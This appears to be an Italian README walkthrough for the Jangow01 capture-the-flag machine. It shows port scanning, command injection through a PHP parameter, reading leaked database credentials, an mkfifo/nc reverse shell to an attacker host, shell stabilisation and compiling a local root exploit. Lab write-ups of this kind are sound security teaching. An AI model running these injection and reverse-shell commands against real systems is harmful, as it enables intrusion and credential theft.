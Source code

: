 
# README - Guida alla CTF: Macchina Jangow01

Questa guida spiega passo per passo come completare la CTF sulla macchina Jangow01, partendo dall'accesso iniziale fino all'escalation dei privilegi e al recupero della flag finale.

---

## **Passaggi**

### **1. Ricognizione Iniziale**

1. **Pingare la macchina target** per verificare che sia attiva:
   ```bash
   ping 192.168.56.118
   ```
   ![Ping della macchina](./ping1.png)

2. **Scansionare le porte con Nmap** per identificare i servizi attivi:
   ```bash
   sudo nmap -sC -sV -O -p- 192.168.56.118
   ```
   ![Risultato Nmap](./nmap_results.png)
   - Porte trovate aperte:
     - **21/tcp**: FTP (vsftpd 3.0.3)
     - **80/tcp**: HTTP (Apache 2.4.18)

### **2. Enumerazione dei Servizi**

#### HTTP
1. Aprire il browser e visitare `http://192.168.56.118/site`.
   ![Homepage HTTP](./homepage_http.png)

2. Cercare file o directory interessanti. Notare `busque.php` e utilizzare il parametro `buscar` per eseguire comandi:
   ```bash
   http://192.168.56.118/site/busque.php?buscar=ls
   ```
   ![Command Injection](./command_injection_ls.png)

3. Esplorare il filesystem tramite comandi come `pwd` e `ls`. Identificare file sensibili come `.backup`:
   ```bash
   http://192.168.56.118/site/busque.php?buscar=cat /var/www/html/.backup
   ```
   Output:
   ```php
   $servername = "localhost";
   $database = "jangow01";
   $username = "jangow01";
   $password = "abygurL09";
   ```
   ![Contenuto del file backup](./backup_file_content.png)

### **3. Accesso Iniziale**

#### FTP
1. Collegarsi al server FTP utilizzando le credenziali trovate:
   ```bash
   ftp 192.168.56.118
   Name: jangow01
   Password: abygurL09
   ```
   ![Connessione FTP](./ftp_connection.png)

2. Esplorare il server FTP per cercare file utili.

#### Reverse Shell
1. Preparare Netcat per ricevere una connessione:
   ```bash
   nc -lvnp 443
   ```
   ![Preparazione Netcat](./netcat_ready.png)

2. Utilizzare il parametro `buscar` per caricare una reverse shell:
   ```bash
   http://192.168.56.118/site/busque.php?buscar=mkfifo /tmp/s; nc 192.168.56.103 443 0</tmp/s | /bin/bash >/tmp/s 2>&1; rm /tmp/s
   ```
   ![Reverse Shell HTTP](./reverse_shell_command.png)

3. Una volta stabilita la connessione, si otterrà accesso come utente `www-data`.
   ![Shell www-data](./www_data_shell.png)

### **4. Escalation dei Privilegi**

1. **Stabilizzare la shell**:
   ```bash
   python3 -c 'import pty; pty.spawn("/bin/bash")'
   export TERM=xterm
   ```
   ![Shell stabilizzata](./stable_shell.png)

2. **Cambiare utente**:
   Utilizzare la password trovata per accedere come `jangow01`:
   ```bash
   su jangow01
   Password: abygurL09
   ```
   ![Cambio utente](./user_switch.png)

3. **Escalare i privilegi a root**:
   - Nella directory `/home/jangow01`, trovare ed eseguire il file `gatto.c`:
     ```bash
     gcc gatto.c -o shell2
     ./shell2
     ```
     ![Compilazione ed esecuzione](./compile_execute.png)
   - Verificare di essere root:
     ```bash
     whoami
     root
     ```
     ![Accesso root](./root_access.png)

### **5. Recuperare la Flag Finale**
1. Accedere alla directory `/root`:
   ```bash
   cd /root
   ```
   ![Accesso directory root](./access_root_directory.png)

2. Leggere il contenuto di `proof.txt`:
   ```bash
   cat proof.txt
   ```
   Output:
   ```
   da39a3ee5e6b4b0d3255bfef95601890afd80709
   ```
   ![Flag Finale](./final_flag.png)

---

## **Note Importanti**

- Assicurarsi di proteggere file sensibili come `.backup`.
- Aggiornare i servizi e il kernel della macchina per evitare exploit noti.
- Sanitizzare tutti i parametri di input per prevenire vulnerabilità di injection.

Seguendo questa guida passo per passo, è possibile replicare l'intera procedura per completare la CTF sulla macchina Jangow01. Buona fortuna! 🚀

